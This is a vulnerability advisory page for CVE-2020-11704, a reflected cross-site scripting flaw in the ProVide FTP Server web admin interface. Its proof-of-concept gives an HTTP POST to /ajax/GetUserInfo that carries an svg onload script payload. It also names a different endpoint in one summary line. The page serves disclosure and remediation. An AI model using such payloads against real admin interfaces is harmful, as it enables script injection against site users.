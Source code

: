 ```yaml
---
layout: default
grand_parent: ProVide FTP Server for Windows
nav_order: 2
parent: CVE-2020-11704 - Multiple XSS in Web Admin Interface
title: Reflected XSS in /ajax/GetUserInfo
---
```


# GetUserInfo - Reflected Cross-Site-Scripting via POST data manipulation

## Summary

The application does not consistently validate client side input, and as a result of this it was identified that the web application was vulnerable to Reflected Cross-Site Scripting.

## VulDB-Like Summary

A vulnerability has been found in the Admin Web Interface of ProVide FTP Server (formerly zFTP) for Windows up to v13.1. It has been declared as problematic. Affected by this vulnerability is an unknown part of the file /ajax/GetInheritedProperties. The manipulation of the username with the input value `%5B<svg+onload="javascript:alert(1)">%5D` leads to a cross site scripting vulnerability. The CWE definition for the vulnerability is CWE-79. As an impact it is known to affect integrity. An attacker might be able to inject arbitrary html and script code into the web site. This would alter the appearance and would make it possible to initiate further attacks against site visitors.

The weakness was disclosed 04/06/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). It is possible to read the advisory at github.com. This vulnerability is known as CVE-2020-11704. The attack can be launched remotely. The exploitation doesn't need any form of authentication. Technical details of the vulnerability are known, but there is no available exploit.

## Proof-of-Concept

**Sample affected URLs:**

* https://provide.ftp.local:8443/ajax/GetUserInfo

**Sample request**

```
POST /ajax/GetUserInfo HTTP/1.1
Host: provide.ftp.local:8443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 45
Origin: https://provide.ftp.local:8443
Connection: close
Referer: https://provide.ftp.local:8443/
Cookie: ProVideAdminSessionID=6FVPFDvS2vGCaWX

<svg+onload="javascript:alert('xss')">
```

## Remediation

Updating the software to v14.0 or higher should solve the issue.

## References

* https://www.owasp.org/index.php/Cross-site_Scripting_(XSS) 
* https://www.google.com/intl/en/about/appsecurity/learning/xss/ 
* https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet 
